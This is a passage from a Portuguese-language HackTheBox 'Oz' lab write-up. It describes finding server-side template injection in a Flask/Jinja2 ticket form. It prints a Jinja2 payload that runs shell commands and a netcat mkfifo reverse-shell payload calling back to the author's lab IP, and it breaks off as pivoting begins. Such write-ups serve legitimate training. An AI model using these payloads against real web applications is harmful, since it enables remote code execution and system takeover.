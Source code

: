 ![Untitled](Oz%20-%20HackTheBox%20Writeup%2070ece9237c34438baab3b83f5dd3cffc/Untitled%207.png)

Quando nós escolhermos adicionar um ticket (no "+" no canto superior direito), esta é a requisição que enviamos e recebemos:

![Untitled](Oz%20-%20HackTheBox%20Writeup%2070ece9237c34438baab3b83f5dd3cffc/Untitled%208.png)

Como vimos na requisição acima, ao especificarmos o valor para o parâmetro **name** e **desc**, ambos são "refletidos" na response. Nós também sabemos que eles utilizam um sistema de template, no caso **Jinja2**, para o desenvolvimento do web server (notamos isso na enumeração do nmap, quando ele nos mostrou que estava sendo utilizando **python 2.7**). Tendo como base para payloads o site [SSTI - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python), eu escolhi um payload de multiplicação para verificar se de fato é vulnerável, e adivinha? Deu certo! 😏

![Untitled](Oz%20-%20HackTheBox%20Writeup%2070ece9237c34438baab3b83f5dd3cffc/Untitled%209.png)

**Server Side Template Injection**, como o próprio nome diz, é uma injeção de códigos utilizando o sistema de template que roda no site. Com isso, as templates aceitam também execução de comandos shell (twig, erb, jinja2, etc..). Como nós podemos injetar comandos de template, nós podemos nos aproveitar disso e utilizar o sistema de template para a execução remota de comandos.

Utilizando o Payload All The Things como base, eu consegui achar um payload utilizando para **Jinja2** para execução de comandos. Aqui está:

> {{config.__class__.__init__.__globals__['os'].popen('ls -la').read()}}


Criptografando-o em URL Encode e injetando no parâmetro vulnerável, recebemos a response com o output do comando! 🥳

![Untitled](Oz%20-%20HackTheBox%20Writeup%2070ece9237c34438baab3b83f5dd3cffc/Untitled%2010.png)

### Reverse shell! 😈

Para pegarmos shell reversa no servidor, eu utilizei este payload que confere uma reverse shell com netcat e jinja2:

> {{config.__class__.__init__.__globals__['os'].popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 1234 >/tmp/f').read()}}


![Untitled](Oz%20-%20HackTheBox%20Writeup%2070ece9237c34438baab3b83f5dd3cffc/Untitled%2011.png)

![mp4.gif](Oz%20-%20HackTheBox%20Writeup%2070ece9237c34438baab3b83f5dd3cffc/mp4.gif)

---

### Pivota y pivota. 🤧

Agora que já estamos dentro, é quando a baderna vai começar. Para nos contextualizarmos melhor na rede, eu subi o [nmap](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap) na máquina e enumerei todos os dispositivos conectados na rede. Com isso, eu obtive este resultado:
